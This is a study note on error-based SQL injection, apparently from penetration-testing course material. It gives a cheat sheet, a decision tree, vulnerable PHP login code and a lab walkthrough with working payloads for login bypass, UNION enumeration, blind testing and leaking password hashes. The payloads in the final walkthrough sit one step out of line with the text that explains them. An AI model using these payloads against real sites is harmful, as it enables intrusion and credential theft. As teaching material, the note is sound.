

---
tags:
  - fingerprinting
  - phase/exploitation
  - sqli
  - web
---

# Identifying SQLi via error-based payloads

> [!tip] Quick Reference — SQLi
> | Step | MySQL | MSSQL |
> |------|-------|-------|
> | Detect | `'` `"` `' OR 1=1--` | same |
> | Comment | `-- -` `#` | `--` |
> | Version | `@@version` | `@@version` |
> | Current DB | `database()` | `db_name()` |
> | List DBs | `UNION SELECT schema_name FROM information_schema.schemata` | `SELECT name FROM sys.databases` |
> | List tables | `UNION SELECT table_name FROM information_schema.tables WHERE table_schema=database()` | `SELECT table_name FROM information_schema.tables` |
> | List columns | `UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'` | same |

## Decision Tree

```
Possible SQLi parameter?
├── [1] Test for error
│   └── Add ' to input → SQL error visible?
│       ├── YES → error-based SQLi
│       └── NO  → try boolean blind: ' OR 1=1-- vs ' OR 1=2--
│
├── [2] Find column count
│   └── ' ORDER BY 1-- , ORDER BY 2-- ... until error
│       └── Error on N → column count is N-1
│
├── [3] UNION attack
│   ├── ' UNION SELECT NULL,NULL,...--  (match column count)
│   ├── Find which column reflects output
│   │   └── ' UNION SELECT 1,2,3,4--  (look for numbers in page)
│   └── Extract data
│       └── ' UNION SELECT username,password,3,4 FROM users--
│
├── Blind SQLi (no visible output)?
│   ├── Boolean: ' AND 1=1-- (true) vs ' AND 1=2-- (false)
│   └── Time-based: ' AND SLEEP(5)--  (MySQL) / WAITFOR DELAY '0:0:5'-- (MSSQL)
│
└── Got credentials?
    └── Try them: SSH, SMB, WinRM, web login
```

## Visual Flow



> [!success] What success looks like
> Pasting `' OR 1=1 -- //` into the username field returns "Authentication Successful" (bypass). Then `' or 1=1 in (select @@version) -- //` produces a warning like `1292: Truncated incorrect DOUBLE value: '8.0.28'` — the version leaks inside the error. Narrowing with a `WHERE username='admin'` clause leaks that one user's hash.

> [!danger] Common errors
> - "Operand should contain 1 column(s)" → your subquery returns multiple columns; select a single column at a time, e.g. `SELECT password FROM users`.
> - Bypass does not trigger → close the string with `'` and append `-- ` (two dashes + space; this note trails `-- //`) so the rest of the original query is commented out.
> - No error appears → debug output may be off in production apps; switch to blind techniques instead ([[Blind SQL injections]]).
> - Quote/encoding problems in the form or URL → see [[🔣 Encoding Reference]].
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> **Error-based** SQLi means you deliberately make the database throw an error that *contains your stolen data*. The `... in (SELECT ...)` trick forces a type mismatch (comparing a boolean to a string/number), and the app helpfully prints the offending value — which is the data you wanted.

## Resources
- [HackTricks — SQLi](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayloadsAllTheThings — SQLi](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)
- [PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)


10.2.1. Identifying SQLi via error-based payloads

The target uses this vulnerable PHP login code, which interpolates user input directly into the query:

```php
$uname = $_POST["uname"];
$passwd = $_POST["password"];
$sql_query = "SELECT * FROM users WHERE user_name='$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
```

In some cases, SQL injection can lead to authentication bypass, which is the first exploitation avenue we'll explore.

By forcing the closing quote on the uname value and adding an OR 1=1 statement followed by a -- comment separator and two forward slashes (//), we can prematurely terminate the SQL statement. The syntax for this type of comment requires two consecutive dashes followed by at least one whitespace character.

In this section's examples, we are trailing these comments with two double slashes. This provides visibility on our payload and also adds some protection against any kind of whitespace truncation the web application might employ.

Submitting `offsec' OR 1=1 -- //` in the username field produces this query on the server:

```sql
SELECT * FROM users WHERE user_name='offsec' OR 1=1 -- '
```

The appended `OR 1=1` is always true, so the `WHERE` clause returns the first user in the table regardless of the password — bypassing the authentication logic and logging us in as that (typically administrative) account.

To experiment with this attack against a real application, we can browse to
[http://192.168.50.16](http://192.168.50.16)
from our local Kali machine, enter "offsec" and "jam" in the respective username and password fields, and click Submit.

> [!info] In-band vs. production
> SQLi is **in-band** when the app returns the query result alongside its normal output. Here SQL debugging is enabled so errors are visible; most production apps hide these messages, since leaking SQL debug info is itself a security flaw.

Pasting the bypass payload into the Username field and clicking Submit returns an "Authentication Successful" message — the attack worked.

Next, force the database to leak data through an error. The `in (SELECT ...)` construct compares the boolean `1=1` against a value (the version), causing a type-mismatch error that displays the leaked value. MySQL accepts both `version()` and `@@version`:

' or 1=1 in (select @@version) -- //

The error leaks the version: `Warning: 1292: Truncated incorrect DOUBLE value: '8.0.28'`. We can now query the database interactively as if using an admin terminal.

Trying to dump the whole `users` table at once fails with `Operand should contain 1 column(s)` — the subquery must return a single column, so query one column at a time:

' OR 1=1 in (SELECT * FROM users) -- //

This leaks every password hash via a series of `Truncated incorrect DOUBLE value` warnings (each showing one MD5 hash). We recovered all hashes, but can't tell which user each belongs to — add a `WHERE` clause to target one user, e.g. `admin`:

' or 1=1 in (SELECT password FROM users) -- //

This returns the single hash for `admin` in the error (`Truncated incorrect DOUBLE value: '21232f297a57a5a743894a0e4a801fc3'`) — we can now predictably fetch any user's hashed credentials via the error-based injection:

' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //

---
%% graph-links %%
## Related
- [[SQL theory and databases]]
- [[UNION-based payloads]]
- [[Blind SQL injections]]

> [!info] Navigation
> Section: [[SQL Injection Attacks/Manual SQL exploitation/_index|Manual SQL exploitation]] · Home: [[🏠 Home]]

